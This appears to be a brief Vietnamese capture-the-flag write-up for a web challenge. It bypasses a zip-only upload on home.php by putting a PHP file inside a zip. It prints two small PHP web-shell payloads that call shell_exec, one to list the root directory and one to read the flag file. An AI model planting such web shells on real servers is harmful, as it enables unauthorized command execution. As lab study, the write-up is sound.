




start chall cho ta thấy danh sách file


tại home.php chỉ cho phép upload file zip
upload 1 file zip có chứa file php nội dung như sau
```
<?
    echo shell_exec('ls /');
?>
```


payload đọc flag

```
<?
    echo shell_exec('cat /flagXNY8H.txt');
?>
```



